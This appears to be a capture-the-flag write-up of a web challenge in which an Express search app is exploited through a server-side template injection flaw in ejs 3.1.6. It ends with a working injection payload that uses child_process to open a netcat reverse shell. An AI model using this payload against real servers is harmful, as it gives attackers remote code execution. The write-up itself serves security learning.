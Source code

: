 ```js
                notFound: false,
                ...req.body
            })
            return
        }
    }

    res.render('search', { notFound: true })
})

const server = app.listen(0, () => console.log(server.address().port))
```

![index](./images/bcactf/duck/index.png)

* According to the source code, the app functions as a search engine for breeds, and if the breed matches an entry from the list, it provides a summary.

* By examining the .ejs files, we can see that the breed and summary parameters are simply passed into the page and rendered. This led me to initially consider SSTI (Server-Side Template Injection). I first attempted to modify the `notFound` variable to false through prototype pollution in the `express@4.18.2` package, since the breed only gets rendered when `notFound` is set to `false`. However, this approach failed.

* Another intriguing aspect is the `ejs@3.1.6` package. It is vulnerable to SSTI, and here is a POC available online: [POC](https://eslam.io/posts/ejs-server-side-template-injection-rce/)


```js
settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337');s
```
